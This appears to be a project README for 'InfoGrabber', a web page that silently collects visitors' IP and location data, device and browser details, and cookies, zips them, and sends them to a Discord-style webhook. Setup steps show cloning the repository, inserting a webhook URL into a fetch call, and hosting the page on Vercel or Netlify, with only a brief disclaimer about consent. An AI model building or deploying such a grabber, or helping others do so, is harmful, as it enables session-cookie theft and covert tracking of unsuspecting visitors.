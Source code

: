 # InfoGrabber? 

This project is a lightweight browser-based information collector that gathers client-side data such as IP details, device specifications, browser metadata, and cookies. It packages the data into a ZIP file and sends it via a webhook.

> ⚠️ **Disclaimer:** This project is intended for **educational** and **ethical** use only. Do **not** deploy or use this script on websites without clear user consent. Violating privacy laws or terms of service can result in legal consequences.

---

## 🚀 Features

- 📡 **IP Information** — Uses `ipinfo.io` to gather public IP, ISP, location, and VPN detection.
- 💻 **Browser & Device Data** — Captures browser name, version, OS, user agent, device type, and screen resolution.
- 🍪 **Cookie Collection** — Retrieves browser cookies (if available).
- 📦 **ZIP Compression** — Organizes and compresses the collected data using `JSZip`.
- 📤 **Webhook Delivery** — Sends the ZIP file to a specified webhook (e.g., Discord).

---

## 📌 Technologies Used

- HTML5  
- JavaScript  
- [JSZip](https://stuk.github.io/jszip/)  
- [ipinfo.io](https://ipinfo.io/)  
- Fetch API

---

## ⚙️ Setup & Usage

### 1. Clone the Repository

```bash
git clone https://github.com/SavJas/WhoDatInfoGrabber.git
```

### 2. Replace the Webhook

Open the HTML file and find this line:
```
fetch("webhook_url", {
```
Replace "webhook_url" with your actual webhook URL (such as a Discord webhook).


### 🚀 Deploy to the Web
You can host this project for free using platforms like Vercel or Netlify.

## ❗ Ethical Use Reminder

#### This tool is intended for:

- ✅ Penetration testing (with proper permission)

- ✅ Educational demonstrations

- ✅ Browser fingerprinting research

**Do not use this tool for malicious purposes or without clear, informed consent from users.**

### 📄 License
This project is open-source under the **MIT License**.

